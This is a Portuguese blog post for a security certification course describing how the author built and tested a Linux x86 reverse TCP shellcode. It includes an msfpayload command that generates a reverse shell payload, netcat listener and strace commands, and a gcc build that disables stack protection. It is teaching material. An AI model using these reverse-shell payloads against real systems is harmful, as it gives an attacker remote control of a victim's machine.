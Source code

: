 ```yaml
---
layout: post
title: SLAE - 2nd Assignment - Shell Reverse TCP
date: '2013-03-20T00:40:00.000-03:00'
author: geyslan
tags: [slae, shellcode, linux, code, assembly, hacking, reverse engineering, portuguese]
modified_time: '2013-06-06T22:44:21.128-03:00'
blogger_id: tag:blogger.com,1999:blog-2541885528459487831.post-1069667985052517024
blogger_orig_url: http://www.hackingbits.com/2013/03/slae-2nd-assignment-shell-reverse-tcp.html
---
```


*/\*<br>
Este post é uma sequência. Para melhor entendimento, vejam:<br>
[SLAE - 1st Assignment - Shell Bind
TCP](/slae-1st-assignment-shell-bind-tcp.html)<br>
[Hacking do Dia - Shell Bind TCP Random Port](/hacking-do-dia-shell-bind-tcp-random.html)<br>
\*/*

<!--more-->

*This blog post has been created for completing the requirements of the
SecurityTube Linux Assembly Expert certification:*

*[http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)*

*Student ID: SLAE-237*

*Códigos deste post estão no [GitHub](https://github.com/geyslan/SLAE/tree/master/2nd.assignment)*.

*\<UPDATE\><br>
O [shellcode](http://shell-storm.org/shellcode/files/shellcode-833.php) final
deste post foi aceito no repositório [Shell-Storm](http://www.shell-storm.org/).<br>
Tks Jonathan Salwan.<br>
\</UPDATE\>*

##Segundo Exame

###Criar um shellcode de Shell Reverse TCP

- Executar um shell ao conectar no host reverso.
- Tornar fácil a configuração dos IP e porta.

Como material, analisar o linux/x86/shell_reverse_tcp do Metasploit usando o libemu.

##libemu - sctest - strace - man

Comecei gerando o fluxograma do shellcode do Metasploit.

{% highlight console %}
$ msfpayload linux/x86/shell_reverse_tcp LHOST=127.0.0.1 R | /opt/libemu/bin/sctest -Ss 100000 -vvv -G shell_reverse_tcp_metasploit.dot

$ dot shell_reverse_tcp_metasploit.dot -T png -o shell_reverse_tcp_metasploit.png
{% endhighlight %}

{% include imagehb.html url="https://raw.github.com/geyslan/SLAE/master/2nd.assignment/shell_reverse_tcp_metasploit.png" caption="Fluxograma do shell_reverse_tcp_metasploit" %}

Vê-se que, diferentemente dos shell_bind_tcp nos quais trabalhamos nos posts
anteriores, o shell_reverse_tcp, logo após a criação do socket (socket), faz a
duplicação (dup2) dos files descriptors e já efetua a conexão (connect) nos
endereço e porta definidos para finalmente executar (execve) o "/bin/sh".

Usei também o [strace](http://linux.die.net/man/1/strace) para analisar o
[netcat](http://linux.die.net/man/1/nc), como complemento ao libemu. O que me me
poupou tempo, pois não precisei reconstruir o binário para entender melhor a
syscall [connect](http://linux.die.net/man/3/connect); e nem é necessário
comentar que o uso do man deixou o meu .bash_history um pouquinho mais gordo. =D

{% highlight console %}
$ nc -l 127.0.0.1 55555
{% endhighlight %}

Em outro terminal.

{% highlight console %}

# strace -e socket,connect nc 127.0.0.1 55555
...
socket(PF_INET, SOCK_STREAM, IPPROTO_TCP) = 3
connect(3, {sa_family=AF_INET, sin_port=htons(55555), sin_addr=inet_addr("127.0.0.1")}, 16) = -1 EINPROGRESS (Operation now in progress)
{% endhighlight %}

Com as novas informações anotadas e revisadas, construí de primeira o shellcode
enxuto em assembly nasm.

{% gist geyslan/5201682 %}

Por conta da possibilidade trivial de se configurar a porta e o IP, o shellcode
só estará livre de null-bytes caso esses valores não tenham numeração em hexa
x00. Entretanto, se o null-byte realmente impossibilitar a utilização do
shellcode, temos outras maneiras de darmos bypass. Em próximos posts veremos
isso.

O shellcode final teve um aumento de 4 bytes, ficando com  72 (metasploit = 68).
Esse acréscimo se deu pela propriedade da configuração do IP e da Porta nos seus
primeiros bytes. Mesmo com as instruções diferentes, o resultado foi igual.
Vejam.

{% include imagehb.html url="https://raw.github.com/geyslan/SLAE/master/2nd.assignment/shell_reverse_tcp.png" caption="Fluxograma do shell_reverse_tcp" %}

###Testando

{% highlight console %}
$ gcc -m32 -fno-stack-protector -z execstack shellcode.c -o shellcode
{% endhighlight %}

*Terminal host*
{% highlight console %}
$ nc -l 127.1.1.1 55555
{% endhighlight %}

*Terminal cliente*
{% highlight console %}
$ ./shellcode
{% endhighlight %}

*Terminal host novamente*
{% highlight console %}
$ netstat -anp | grep shell
tcp        0      0 127.0.0.1:51600   127.1.1.1:55555   ESTABLISHED   976/shellcode
{% endhighlight %}

##Reversing (Gotcha)

Mais um shellcode construído: Shell Reverse TCP (Linux/x86) com IP e porta
facilmente configuráveis (segundo ao quinto e nono ao décimo byte,
respectivamente).

*P.S.* Se você encontrar alguma forma de reduzir a quantidade de bytes do
shellcode apresentado, entre em contato para discutirmos. Com todo prazer,
farei as alterações colocando os devidos créditos.

*[]*

##Mais Informações

[SLAE - SecurityTube Linux Assembly Expert](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)<br>
[libemu](http://libemu.carnivore.it/)<br>
[Metasploit](http://www.metasploit.com/)<br>
[Metasploit Unleashed - Offensive Security](http://www.offensive-security.com/metasploit-unleashed/Main_Page)<br>
[Berkeley Sockets](https://en.wikipedia.org/wiki/Berkeley_sockets)<br>
[Shell-Storm](http://www.shell-storm.org/)<br>
[exploit-db](http://www.exploit-db.com/)<br>
[Project Shellcode](http://www.projectshellcode.com/)<br>
[Endianness](https://en.wikipedia.org/wiki/Endianness)<br>
[Linux Assembly](http://asm.sourceforge.net/)<br>
[Introdução à Arquitetura de Computadores - bugseq team - Tiago Natel (i4k)](https://code.google.com/p/bugsec/wiki/AssemblyArqComp)<br>
[Construindo Shellcodes - Victor Mello (m0nad)](http://0fx66.com/files/zines/cogumelo-binario/edicoes/1/ConstruindoShellcodes.txt)<br>
[Understanding Intel Instruction Sizes - William Swanson](http://www.swansontec.com/sintel.html)<br>
[The Art of Picking Intel Registers - William Swanson](http://www.swansontec.com/sregisters.html)<br>
[Smashing The Stack For Fun And Profit - Aleph One](http://insecure.org/stf/smashstack.html)<br>
[Get all shellcode on binary - commandlinefu](http://www.commandlinefu.com/commands/view/6051/get-all-shellcode-on-binary-file-from-objdump)<br>

